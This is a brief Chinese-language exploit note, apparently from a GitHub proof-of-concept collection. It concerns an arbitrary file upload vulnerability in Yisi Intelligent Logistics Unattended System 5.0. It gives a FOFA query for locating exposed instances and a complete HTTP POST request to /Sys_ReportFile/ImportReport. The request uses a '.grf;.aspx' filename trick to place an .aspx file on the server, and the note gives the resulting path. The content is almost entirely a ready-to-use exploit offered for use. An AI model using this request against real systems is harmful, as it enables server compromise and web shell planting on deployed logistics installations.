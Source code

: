 # 易思智能物流无人值守系统5.0存在任意文件上传漏洞

## 易思智能物流无人值守系统5.0存在任意文件上传漏洞

## fofa
```
"智能物流无人值守系统"
```

## exp
```
POST /Sys_ReportFile/ImportReport?encode=717132 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 199
Content-Type: multipart/form-data; boundary=59d3d0b126080d21572c9e7a77d89931

--59d3d0b126080d21572c9e7a77d89931
Content-Disposition: form-data; name="file"; filename="1234.grf;.aspx"
Content-Type: application/octet-stream

304674859
--59d3d0b126080d21572c9e7a77d89931--
```

上传成功后，会返回路径 http://127.0.0.1/GRF/Custom/717132.aspx

